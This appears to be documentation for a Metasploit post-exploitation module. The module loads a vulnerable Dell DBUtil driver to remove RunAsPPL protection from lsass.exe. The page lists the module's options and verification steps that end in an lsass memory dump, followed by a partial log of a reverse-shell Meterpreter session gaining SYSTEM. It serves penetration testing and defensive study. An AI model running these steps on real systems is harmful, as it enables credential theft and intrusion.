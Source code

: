 ## Options

### DRIVER_PATH

The path on the RHOST containing the driver inf, cat, and sys (and coinstaller depending on the version). For example,
in the scenarios below, the driver files are uploaded to `C:\Windows\Temp`, so this should be `set DRIVER_PATH C:\\Windows\\Temp`.

### ENABLE_MEM_PROTECT

Enable or disable memory protection on the targetted process. `false` will remove memory protection and `true` will enable it.

### PID

The ID of the targetted process. If set to 0 (the default value), the module will automatically find lsass.exe.

## Verification Steps

1. Start msfconsole
1. Get a system Meterpreter session on a host using UEFI or Secure Boot and configured with RunAsPPL.
1. Obtain the pid of lsass.exe: `ps | grep lsass`
1. Background the session
1. Do: `post/windows/gather/memory_dump`
1. Set the `SESSION`, `PID`, and `DUMP_PATH` options.
1. Do: `run`
1. Observe a permission denied error.
1. Return to the previous session: `sessions -i 1`
1. Upload the required driver files: `upload /home/albinolobster/drivers/2_7/ C:\\Windows\\Temp\\`
1. Background the session
1. Do: `use post/windows/manage/dell_memory_protect`
1. Set the `SESSION`, `PID`, and `DRIVER_PATH` (e.g. `C:\\Windows\\Temp`) options.
1. Do: `run`
1. Observe the module exits successfully.
1. Do: `post/windows/gather/memory_dump`
1. Do: `run`
1. Observe the successful memory dump of lsass

## Scenarios

### Windows 11 Build 22000.348 x64 using DBUtilDrv2 version 2.7

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:47730 ) at 2021-12-07 12:48:57 -0800

meterpreter > sysinfo
Computer        : BADBLOOD
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: badblood\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
```